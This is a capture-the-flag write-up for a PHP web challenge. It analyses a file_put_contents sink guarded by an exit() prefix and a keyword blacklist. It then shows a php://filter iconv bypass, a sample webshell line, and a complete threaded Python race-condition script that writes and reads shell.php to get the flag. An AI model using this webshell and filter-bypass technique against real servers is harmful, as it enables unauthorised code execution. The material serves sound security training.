


## Challenge No Way Out
> Description Challenge: The janitor is fast, and the filter is lethal. You have 0.67 seconds to bypass the exit() trap before your existence is erased. <br>
> Author: Auron <br>
> Challenge Link: http://chal.thjcc.org:8080/ <br>

## List
Homepage displays PHP code

Let's delve into the source code and analyze this challenge in detail. First, let's find out where the flag is located. We access the Dockerfile and we can see that the flag is written to the file `/flag.txt`
```Dockerfile
[....]
COPY src/index.php /var/www/html/
COPY start.sh /usr/local/bin/start.sh
RUN echo "THJCC{fake_flag_for_test}" > /flag.txt
[....]
```
So, the goal now is to figure out how to read this `/flag.txt` file. Let's see how the PHP code handles it
```php
<?php 
error_reporting(0); 
$content = $_POST['content']; 
$file = $_GET['file']; 

if (isset($file) && isset($content)) { 

$exit = '<?php exit(); ?>'; 
$blacklist = ['base64', 'rot13', 'string.strip_tags']; 

foreach($blacklist as $b){ 
if(stripos($file, $b) !== false){ 
die('Hacker!!!'); 
} 
} 
file_put_contents($file, $exit . $content); 
usleep(50000); 
echo 'filewritten: ' . $file; 
} 
highlight_file(__FILE__);
?>
```
In this code snippet, there are two parameters, `file` and `content`. The problem here is that it uses `file_put_contents` and performs arbitrary file read/write operations. If we can bypass the blacklist, we can perform arbitrary RCE. <br>
In the `start.sh` file, it checks if we upload another file, `index.php`, and after about `0.67` it deletes the file immediately.
```sh
#!/bin/bash
(
inotifywait -m -r -e create --format '%w%f' /var/www/html | while read NEWFILE
do

if [ "$(basename "$NEWFILE")" != "index.php" ]; then

sleep 0.67
rm -f "$NEWFILE"

fi
done
) &
exec docker-php-entrypoint apache2-foreground
```
And as analyzed in the two code snippets above, we need to overcome the following two problems.

> 1. We need to bypass the <?php exit() ?> in index.php, meaning that when we upload a webshell like `<?php system('id'); ?>`

The code then becomes
```php
<?php exit ?><?php system('id'); ?>
```
This will prevent our webshell from executing.
> 2. We need to upload the shell within the time frame of 0.67 to avoid file deletion. The challenge description reminds me of RaceCondition for uploading shells.

## Exploitation
To overcome the above two issues, we perform the bypass sequentially:
> 1. Bypass `exit()` using PHP Stream Filter. We can use `iconv UTF-16LE → UTF-8`. The idea is to place the file written to the webroot `/var/www/html/shell.php`.
The fixed prefix is ​​`<?php exit();` `?>` is a UTF-8 byte but is forced to decode as UTF-16LE, turning it into garbage characters and no longer the exit string.

When `file_put_content` writes data, the filter will treat the input as `utf-16LE` and convert it to `utf-8` to write to the file.

> 2. After writing to the file, we perform a Race Condition to get `/shell.php` within that 0.67 range until we get it, preventing the file from being deleted.
And to automate the exploitation process, I will write the following Python script.

And here, `iconv` is not in the blacklist, so it can be bypassed.
<details>
  <summary style="color: red;">Click View Script Solve</summary> <br>

~~~python
import re
import threading
import urllib.parse
import requests


class Exploit:
    def __init__(self, base_url: str):
        self.base_url = base_url.rstrip("/")
        if self.base_url.endswith(".php"):
            self.index_url = self.base_url
            self.base_root = self.base_url.rsplit("/", 1)[0]
        else:
            self.index_url = self.base_url + "/index.php"
            self.base_root = self.base_url

        self.shell_url = self.base_root + "/shell.php"
        self.file_param = (
            "php://filter/write=convert.iconv.UTF-16LE.UTF-8/"
            "resource=/var/www/html/shell.php"
        )
        self.php_payload = "<?php echo file_get_contents('/flag.txt'); ?>"
        self.payload_utf16le = self.php_payload.encode("utf-16le")
        self.session = requests.Session()
        self.stop_event = threading.Event()
        self.flag = None
        self.flag_regex = re.compile(r"[A-Za-z0-9_]+\{.*?\}")
    def _build_post_body(self) -> bytes:
        return b"content=" + urllib.parse.quote_from_bytes(self.payload_utf16le).encode()

    def writer_loop(self, timeout: float = 0.3):
        body = self._build_post_body()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}

        while not self.stop_event.is_set():
            try:
                self.session.post(
                    self.index_url,
                    params={"file": self.file_param},
                    data=body,
                    headers=headers,
                    timeout=timeout,
                )
            except Exception:
                pass

    def reader_loop(self, timeout: float = 0.3):
        while not self.stop_event.is_set():
            try:
                r = self.session.get(self.shell_url, timeout=timeout)
                if r.status_code == 200 and r.text:
                    m = self.flag_regex.search(r.text)
                    if m:
                        self.flag = m.group(0)
                        self.stop_event.set()
                        return
            except Exception:
                pass

    def run(self, threads_writer: int = 1, threads_reader: int = 1):
        workers = []

        for _ in range(threads_writer):
            t = threading.Thread(target=self.writer_loop, daemon=True)
            t.start()
            workers.append(t)
        for _ in range(threads_reader):
            t = threading.Thread(target=self.reader_loop, daemon=True)
            t.start()
            workers.append(t)
        self.stop_event.wait()
        return self.flag
    def trigger_once(self):
        body = self._build_post_body()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        r = self.session.post(
            self.index_url,
            params={"file": self.file_param},
            data=body,
            headers=headers,
            timeout=1.0,
        )
        print(f"Triggered once, status: {r.status_code}")
        return r


if __name__ == "__main__":
    exp = Exploit("http://chal.thjcc.org:8080")
    flag = exp.run(threads_writer=2, threads_reader=2)
    print("[+] FLAG:", flag)
~~~
</details>

```shell
PS D:\Downloads\chal> & "D:\Accessories\IDE PyThon & PHP & Java\python.exe" d:/Downloads/chal/1.py
[+] FLAG: THJCC{h4ppy_n3w_y34r_4nd_c0ngr47_u_byp4SS_th7_EXIT_n1ah4wg1n9198w4tqr8926g1n94e92gw65j1n89h21w921g9}
```
Obtain FLAG: `THJCC{h4ppy_n3w_y34r_4nd_c0ngr47_u_byp4SS_th7_EXIT_n1ah4wg1n9198w4tqr8926g1n94e92gw65j1n89h21w921g9}`


